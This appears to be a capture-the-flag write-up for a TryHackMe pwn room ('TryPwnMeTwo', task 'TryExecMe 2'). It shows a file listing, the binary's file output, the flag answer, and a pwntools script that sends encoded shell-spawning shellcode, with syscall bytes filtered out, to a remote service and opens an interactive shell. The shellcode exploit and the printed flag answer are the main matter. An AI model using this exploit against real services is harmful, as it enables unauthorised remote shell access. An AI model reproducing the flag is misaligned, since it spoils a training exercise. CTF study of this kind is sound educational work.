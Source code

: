 <p>The files needed to complete this challenge are accessible from the AttackBox in the /root/Rooms/TryPwnMeTwo/ directory. If you prefer to work on your local machine, download the files directly via the Download Task Files link on this task. These files are the ones that you need to exploit during the next tasks. The md5 hash of the zip file is d69d965f7c372efb35c891ee094cbdce, in case you need to check its integrity after downloading it.</p>

<p><em>Answer the question below</em></p>

<p>2.1. I´ve donwloaded the files!<br>
<code>No answer needed</code></p>

<br>

```bash
:~/Rooms/TryPwnMeTwo# ls -lah
total 9.9M
drwxr-xr-x  6 root root 4.0K Jan 30  2025 .
drwxr-xr-x 41 root root 4.0K May 23 09:40 ..
-rw-r--r--  1 root root 9.9M Jan 30  2025 materials-trypwnmetwo-1736914672618.zip
drwxr-xr-x  2 root root 4.0K Jan 30  2025 NotSpecified2
drwxr-xr-x  2 root root 4.0K Jan 30  2025 SlowServer
drwxr-xr-x  2 root root 4.0K Jan 30  2025 TryaNote
drwxr-xr-x  2 root root 4.0K Jan 30  2025 TryExecMe2
```

<br>
<h3>Task 3 . TryExecMe 2</h3>
<p><em></em>OH! So what if you can execute whatever you want! Do you think you can get a shell? ! Brrrrrr!</p>em><br>

Try to get the flag on the remote server using the following IP and port.

xx.xxx.xx.xx 5002</p>

<p><em>Answer the question below</em></p>

<p>3.1. What is the content of the file flag.txt on the target?<br>
<code>THM{TryExecMe-reveng3-with-no-s1sc4lls-nic3}</code></p>

<br>

```bash
:~/Rooms/TryPwnMeTwo/TryExecMe2# file tryexecme2
tryexecme2: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6b8498952c23c338096222278ce22a73b927363c, for GNU/Linux 3.2.0, not stripped
```


<img width="1265" height="687" alt="image" src="https://github.com/user-attachments/assets/cee70639-5c3a-4983-86f3-0a56f80501ac" />


```bash
:~/Rooms/TryPwnMeTwo/TryExecMe2# cat script.py
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

r = remote("10.201.77.76", 5002)

# Generate shellcode to spawn a shell
shellcode = asm(shellcraft.sh())

# Encode the shellcode to avoid 0x0f and 0xcd
encoded_shellcode = encode(shellcode, avoid=b"\x0f\xcd")

r.recvuntil(b"Give me your spell, and I will execute it: \n")
r.sendline(encoded_shellcode)
r.interactive("$ ")
```